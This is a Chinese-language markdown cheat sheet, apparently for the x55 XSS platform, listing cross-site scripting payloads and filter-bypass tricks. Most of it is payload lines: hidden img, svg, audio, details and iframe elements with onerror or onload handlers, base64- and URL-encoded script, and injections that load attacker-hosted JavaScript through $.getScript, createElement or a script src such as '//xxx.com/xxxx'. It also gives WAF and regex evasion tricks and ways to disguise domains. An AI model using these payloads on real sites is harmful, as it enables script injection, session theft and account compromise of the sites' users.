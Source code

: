# x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
7.如果alert('123')不行可以试试prompt('xss')
```

### 常用

- 变形
  ```
  alert(1) 或者prompt(1) -> 网站有jq可以使用: $.getScript("js地址")
                         -> createElement('script');body.appendChild(s);s.src='js地址'>
                         -> eval(atob('YWxlcnQoJzEyMycp')) #base64接码：alert('123')
  ```
-  无script标签

  ```
  // <BODY/ONLOAD=alert(1)>   
  // <SVG/ONLOAD=alert(1) style=display:none>
  // <audio src=x onerror=alert("xss");>
  // <video style=display:none><source onerror="alert(1)">
  ```

- img（不显示图片）

  ```
  // <img/style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
  注：YWxlcnQoJzEyMycp => alert('123')
  // <img/src=# style=display:none onerror=$.getScript("js地址")>
  // <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
  ```

- iframe data:text/html  # 目前只能测试能在iframe上使用

  ```
  // <iframe/style="display:none" src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
注：%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E为url编码 -> <script>alert(1)</script>
  ```

- details 详细标签 #可能会把后面的数据隐藏

  ```
  // <details/open/ontoggle=alert(1) style=display:none>
  ```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```

###  bypass 常规waf(x=alert(1))

```
冷门标签绕过：

// `!-- --`绕过:
// `<!--<img src="--><img src onerror=x//">`

// `<style><img src="</style><img src onerror=x//">`
```

### 绕过<script src>的正则

```
// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```

### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



